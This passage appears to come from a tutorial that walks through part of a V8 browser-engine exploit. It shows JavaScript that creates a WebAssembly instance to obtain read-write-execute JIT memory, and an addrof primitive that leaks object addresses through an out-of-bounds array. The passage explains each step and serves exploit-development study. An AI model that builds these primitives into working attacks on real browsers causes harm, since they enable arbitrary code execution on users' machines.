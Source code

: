 Originally, there was no part to declare a buffer in the PoC part, but a part to declare a buffer was added. <br>
I will proceed with this part in mind.

<br><br><br>

```js
// allocate rwx memory region
let wasmCode = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 133, 128, 128, 128, 0, 1, 96, 0, 1, 127, 3, 130, 128, 128, 128, 0, 1, 0, 4, 132, 128, 128, 128, 0, 1, 112, 0, 0, 5, 131, 128, 128, 128, 0, 1, 0, 1, 6, 129, 128, 128, 128, 0, 0, 7, 145, 128, 128, 128, 0, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 4, 109, 97, 105, 110, 0, 0, 10, 138, 128, 128, 128, 0, 1, 132, 128, 128, 128, 0, 0, 65, 0, 11]);
let wasmModule = new WebAssembly.Module(wasmCode);
let wasmInstance = new WebAssembly.Instance(wasmModule);
let sh = wasmInstance.exports.main;
let rwx = aar(addrof(wasmInstance) + 0x68n);  // address of rwx memory region
```

<br><br><br>


Prepare wasm bytecode through wasmcode, create wasmModule, and create wasmInstance with compilation information <br>
v8 performs JIT compilation and allocates memory to contain the corresponding code. At this time, the allocated memory is the JIT area with rwx permission. <br>


So, we can say that an instance must be created to create the rwx area. <br>
Afterwards, you can see how the JIT compiled code is set up so that it can be used using sh() through exports. <br>

You can see the part where 0x68 is added to wasmInstance right after that. The reason why the offset is 0x68 is <br>
This is because it is known that in the v8 version, the JIT compiled code exists at position +0x68 based on wasmInstance. <br>
This may differ depending on the v8 version, so it would be a good idea to analyze it yourself or look up the offset information for that version. <br>

`let rwx = aar(addrof(WasmInstance)+ 0x68n);`

In this part, the addrof function is as follows:


<br><br><br>


```js
// get (compressed) address of object
function addrof(obj) {
    obj_arr[0] = obj;
    return ftoi(oob_arr[4]) & 0xffffffffn;
}
```

<br><br><br>


To explain based on the current situation, an object called WasmInstance is entered, and the object is placed at obj_arr[0]. <br>
At this time, you can see that and operation is performed on oob_arr[4] and 0xffffffffn. <br>
The reason for this behavior is because obj_arr[0] = oob_arr[4]. Let's look at this part in the picture.
